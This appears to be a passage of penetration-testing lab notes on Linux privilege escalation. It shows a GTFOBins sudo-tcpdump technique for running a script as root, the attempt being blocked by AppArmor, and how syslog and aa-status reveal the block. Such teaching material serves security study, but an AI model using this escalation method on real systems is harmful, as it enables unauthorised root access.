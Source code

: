 If the **/etc/sudoers** configurations are too permissive, a user could abuse the short-lived administrative right to obtain permanent root access
+ Since the first of the three permitted commands does not allow us to edit any crontab, it's unlikely that we could use this to find any escalation route
+ The second command looks more promising, so let's browse GTFObins for suggestions on how to abuse it
+ Running the hinted commands, however, reveals an unexpected outcome:
```
joe@debian-privesc:~$ COMMAND='id'
joe@debian-privesc:~$ TF=$(mktemp)
joe@debian-privesc:~$ echo "$COMMAND" > $TF
joe@debian-privesc:~$ chmod +x $TF
joe@debian-privesc:~$ sudo tcpdump -ln -i lo -w /dev/null -W 1 -G 1 -z $TF -Z root
[sudo] password for joe:
dropped privs to root
tcpdump: listening on lo, link-type EN10MB (Ethernet), capture size 262144 bytes
...
compress_savefile: execlp(/tmp/tmp.c5hrJ5UrsF, /dev/null) failed: Permission denied
```
+ Surprisingly, once we've executed the suggested command-set, we are prompted with a "permission denied" error message

To further investigate the culprit, we can inspect the **syslog** file for any occurrence of the _tcpdump_ keyword:
```
joe@debian-privesc:~$ cat /var/log/syslog | grep tcpdump
...
Aug 29 02:52:14 debian-privesc kernel: [ 5742.171462] audit: type=1400 audit(1661759534.607:27): apparmor="DENIED" operation="exec" profile="/usr/sbin/tcpdump" name="/tmp/tmp.c5hrJ5UrsF" pid=12280 comm="tcpdump" requested_mask="x" denied_mask="x" fsuid=0 ouid=1000
```
+ Above shows that the _audit_ daemon has logged our privilege escalation attempt
+ Closer inspection reveals that _AppArmor_ was triggered and blocked us

AppArmor is a kernel module that provides mandatory access control (MAC) on Linux systems by running various application-specific profiles, and it's enabled by default on Debian 10
+ We can verify AppArmor's status as the _root_ user using the **aa-status** command
```
joe@debian-privesc:~$ su - root
Password:
root@debian-privesc:~# aa-status
apparmor module is loaded.
20 profiles are loaded.
18 profiles are in enforce mode.
   /usr/bin/evince
   /usr/bin/evince-previewer
   /usr/bin/evince-previewer//sanitized_helper
   /usr/bin/evince-thumbnailer
   /usr/bin/evince//sanitized_helper
   /usr/bin/man
   /usr/lib/cups/backend/cups-pdf
   /usr/sbin/cups-browsed
   /usr/sbin/cupsd
   /usr/sbin/cupsd//third_party
   /usr/sbin/tcpdump
...
2 profiles are in complain mode.
   libreoffice-oopslash
   libreoffice-soffice
3 processes have profiles defined.
3 processes are in enforce mode.
   /usr/sbin/cups-browsed (502)
   /usr/sbin/cupsd (654)
   /usr/lib/cups/notifier/dbus (658) /usr/sbin/cupsd
0 processes are in complain mode.
```